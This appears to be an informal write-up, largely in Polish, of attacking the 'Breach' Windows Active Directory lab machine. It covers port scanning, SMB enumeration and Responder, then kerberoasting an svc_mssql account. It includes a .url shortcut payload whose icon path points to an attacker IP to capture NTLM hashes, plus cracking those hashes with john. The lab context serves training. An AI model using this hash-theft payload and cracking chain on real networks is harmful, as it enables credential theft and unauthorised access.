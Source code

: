 # Breach
Windows, Medium, created by **xct**

![breach_slide](https://github.com/user-attachments/assets/d3ba0a90-294a-4f8f-985a-fdcb98134eaf)

```
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-28 20:32:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49907/tcp open  msrpc         Microsoft Windows RPC

```
```
dig @10.10.100.171 breach.vl any
dig @10.10.100.171 breach.vl axrf 
```
- nic ciekawego

```
enum4linux -u anonymous -a 10.10.100.171
enum4linux  -a 10.10.100.171
enum4linux -u guest -a 10.10.100.171
```

![{CD6EF018-BA6E-4B86-8DB9-BC259797566A}](https://github.com/user-attachments/assets/74bf33db-8fb4-4e1b-9d7d-9fb747b978ec)

![{942E308C-25DE-45F7-9EBA-007AB1554DF5}](https://github.com/user-attachments/assets/ff6afa0c-ef49-454d-8a04-1cf88e10d8e0)

![{DB2E06CF-0CCA-48D7-8BE3-644C3052DE30}](https://github.com/user-attachments/assets/05b3371d-9728-4f2b-b240-7fcdf52fa8eb)

ale za to dostaliśmy 3 username'y :D

```
mask ""
recurse
prompt
mget *
```

z `Users` trochę więcej

![{4F23DF53-A5C3-47F6-9077-B5F747FBE363}](https://github.com/user-attachments/assets/b491cce1-e183-454f-bfa4-b96d44073c41)

This is interesting for me (yeah maybe too much ctfs)

![{F1F0A729-9805-458C-8E99-462B03BECFDC}](https://github.com/user-attachments/assets/e26ead42-7abe-44c4-9c9c-a764b0f9179f)

![{2E617D97-9E8E-4BD4-B0EA-61829A6263BC}](https://github.com/user-attachments/assets/62978a73-097d-4335-8796-3b0e200df6e5)

W sumie kilka minut posiedziałem i nic nie znalazłem

Ale dobra, bo ja płynę, a tutaj wszystko pewnie jest logiczne. Jak mamy WRITE na share to znaczy, że tam pewnie ktoś wchodzi.

włączamy `sudo responder -i tun0` i szukamy payloadu

nr 1
```
[InternetShortcut]
URL=http://10.8.4.124
IconIndex=0
IconFile=\\10.8.4.124\leak\leak.ico
```

dobra podwóch mi się odechciało. użyję `https://github.com/Greenwolf/ntlm_theft.git`

![{DF49B923-FB14-44D3-AA85-0E5D5A91DE04}](https://github.com/user-attachments/assets/099d8350-2a3f-4892-bbf2-916d1e9cee09)

i znowu sztuczka z masyowym przesyłaniem

![{53EEC5AC-E898-4C3E-B5C7-DF659BD67ADF}](https://github.com/user-attachments/assets/29523174-45e9-446f-967f-135f06aa4133)

- nic po 2 minutach. Odnoszę wrażenie, że folder o nazwie `transfer` może mieć tą nazwę nie bez powodu xd

![{6DB7DC6E-8AF9-4C8C-AE8A-C945EE9F26CF}](https://github.com/user-attachments/assets/76b53357-0650-47c9-89f8-47ea85b39578)

yes..

![{DBF9EDD0-BF6D-46C2-BA1A-7A13FE512CF8}](https://github.com/user-attachments/assets/638cd22b-2004-4de3-9ab6-f818845302c6)

a to mnie zaskoczyli

okey my bad...

![{48299F14-D958-4CE6-B1DD-7780683C6E7C}](https://github.com/user-attachments/assets/e1843f12-aad9-4e11-a82d-6f46091e2733)

after correction john cracked it in 00sek

![{C938CBDA-424C-4E0C-82F4-A37FAA14667C}](https://github.com/user-attachments/assets/4547518c-a868-4c3a-8ff1-726a32f6f65d)

![{09740161-3FE9-4F20-BE79-C0E71EA2CA7C}](https://github.com/user-attachments/assets/b0864eac-3608-4452-add7-1ad5c0fb69a0)

mamy jakiś pliczek
- local.txt to flaga

- 
![{21D09F77-729F-469C-9654-4DE622DCA38C}](https://github.com/user-attachments/assets/2e1558fa-8c14-435d-8fc8-9b87a36f0c71)

we also have access to anoter users but their directories are empty.

![{E562EC31-A68C-4CC5-95B8-384A53BB8015}](https://github.com/user-attachments/assets/1948165f-d412-4f57-9807-f84b9029fa4e)

o kerberoassting

John znowu złamał w 00sek

```
john hash2 -w=~/SHARED/lists/rockyou.txt
```

user nazywa się `svc_mssql`, ale nie pamiętam, żeby port 1433 był otwarty.

